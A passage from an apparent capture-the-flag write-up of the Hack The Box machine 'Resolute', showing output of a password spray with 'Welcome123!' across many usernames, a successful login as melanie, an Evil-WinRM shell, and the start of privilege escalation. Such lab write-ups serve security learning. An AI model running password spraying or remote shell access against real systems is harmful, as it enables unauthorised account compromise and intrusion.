 ```shell
BAD CREDENTIALS
Trying felicia:Welcome123!
BAD CREDENTIALS
Trying gustavo:Welcome123!
BAD CREDENTIALS
Trying ulf:Welcome123!
BAD CREDENTIALS
Trying stevie:Welcome123!
BAD CREDENTIALS
Trying claire:Welcome123!
BAD CREDENTIALS
Trying paulo:Welcome123!
BAD CREDENTIALS
Trying steve:Welcome123!
BAD CREDENTIALS
Trying annette:Welcome123!
BAD CREDENTIALS
Trying annika:Welcome123!
BAD CREDENTIALS
Trying per:Welcome123!
BAD CREDENTIALS
Trying claude:Welcome123!
BAD CREDENTIALS
Trying melanie:Welcome123!
SUCCESS

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\melanie\Documents> 
```

I swipe the user.txt flag off of melanie's desktop. Now, on to root.

0c3be45fcfe{censored}ee8d3a978540

## Privilege Escalation
### User Account Enumeration
Let's see who's on here--looks like Ryan might be the next pivot.

![pic](/images/htb/resolute/1.png)
